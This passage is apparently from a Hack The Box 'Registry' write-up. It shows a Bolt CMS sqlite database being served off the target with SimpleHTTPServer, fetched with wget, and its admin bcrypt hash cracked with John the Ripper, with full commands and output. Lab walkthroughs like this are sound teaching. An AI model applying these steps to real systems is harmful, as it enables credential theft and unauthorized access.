Going to http://registry.htb/bolt,  We find a website being build.

<img src="{{site.baseurl}}/assets/img/posts/registry/image-20200401185808789.png" alt="image-20200401185808789" style="display: block;  margin-left: auto; margin-right: auto;" />


Ok that's definitely a website. though there is nothing in it apart from the message telling us to create an 'About us' page. This definitely looks like a CMS. And indeed at the bottom of the page we get a link for [https://bolt.cm/](https://bolt.cm/). Looking at the documentation we can see the URL to the login screen **https://registry.htb/bolt/bolt/login**.

<img src="{{site.baseurl}}/assets/img/posts/registry/image-20200401193203772.png" alt="image-20200401193203772" style="display: block;  margin-left: auto; margin-right: auto;" />


admin:admin or admin:password don't work. If we try the `I forgot my password`, we just see that it sends an email to whatever the username specified is. Knowing that this is a CMS, there must be a database somewhere. And indeed, in the our ssh terminal we can find it at `/var/www/html/bolt/app/database`. So we can simply download this to investigate on our local machine. The good thing is is that the webmaster is using `sqlite` which is not password protected by default.  What we can do is download the database and take a better look with  `DB Browser for SQLite`. To download it, we can easily prompt a http server in the database directory

```sh
[remote]

bolt@bolt:/var/www/html/bolt/app/database$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.15.93 - - [02/Apr/2020 17:32:04] code 404, message File not found
10.10.15.93 - - [02/Apr/2020 17:32:10] "GET /bolt.db HTTP/1.1" 200 -

[local]

$wget http://10.10.10.159:8000/bolt.db
--2020-04-02 19:29:25--  http://10.10.10.159:8000/bolt.db
Connecting to 10.10.10.159:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 294912 (288K) [application/octet-stream]
Saving to: ‘bolt.db’

bolt.db             100%[=================>] 288.00K  92.2KB/s    in 3.1s

2020-04-02 19:29:29 (92.2 KB/s) - ‘bolt.db’ saved [294912/294912]
```

Great, now we open the browser sqlite.

<img src="{{site.baseurl}}/assets/img/posts/registry/image-20200402194129488.png" alt="image-20200402194129488" style="display: block;  margin-left: auto; margin-right: auto;" />


We see in the `bolt_users` table the admin user and a hash. Let's copy that to a file and ask john

```sh
$cat hash
$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK

$john hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
strawberry       (?)
1g 0:00:00:08 DONE 2/3 (2020-04-02 19:35) 0.1133g/s 126.5p/s 126.5c/s 126.5C/s stinky..warren
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```